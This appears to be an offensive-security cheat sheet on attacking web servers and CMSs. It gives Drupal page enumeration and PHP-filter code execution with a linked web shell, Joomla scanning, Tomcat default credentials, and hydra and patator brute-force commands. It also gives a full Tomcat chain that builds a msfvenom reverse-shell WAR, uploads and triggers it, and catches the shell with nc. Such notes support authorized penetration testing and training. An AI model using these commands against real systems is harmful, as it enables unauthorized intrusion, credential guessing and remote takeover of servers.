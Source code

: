 - Hidden pages enumeration
  - `Fuzz /node/<NUMBER> where <NUMBER> is a number` (from 1 to 500 for example).
  - You could find hidden pages (test, dev) which are not referenced by the search engines.

  - `wfuzz -c -z range,1-500 --hc 404 <URL>/node/FUZZ`

- Drupal panel RCE
  - You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)

  - Go to Modules -> (Check) PHP Filter  -> Save configuration

  - <https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php>

  - Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview

- Joomla
  - `joomscan -u <URL>`
  - `./joomlavs.rb --url <URL> -a -v`

- Tomcat
  - Default credentials
    - The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :
      - `admin:admin`
      - `tomcat:tomcat`
      - `admin:<NOTHING>`
      - `admin:s3cr3t`
      - `tomcat:s3cr3t`
      - `admin:tomcat`
  - Brute force
    - `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u`

- Tomcat panel RCE
  - Generate payload
    - `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`

  - Upload payload
    - Tomcat6 :
      - `wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -`

    - Tomcat7 and above :
      - `curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'`

  - Listener
    - `nc -lvp <PORT>`

  - Execute payload
    - `curl http://<IP>:8080/shell/`

- WebDav
  - `davtest -url <URL>`

- HTTP brute force authentication
  - HTTP basic authentication
    - Hydra
      - `hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15`
    - Patator
      - `python patator.py http_fuzz auth_type=basic url=<URL> user_pass=FILE0 0=<USER:PASSWORD_LIST> -x ignore:code=401 -x ignore:code=307`
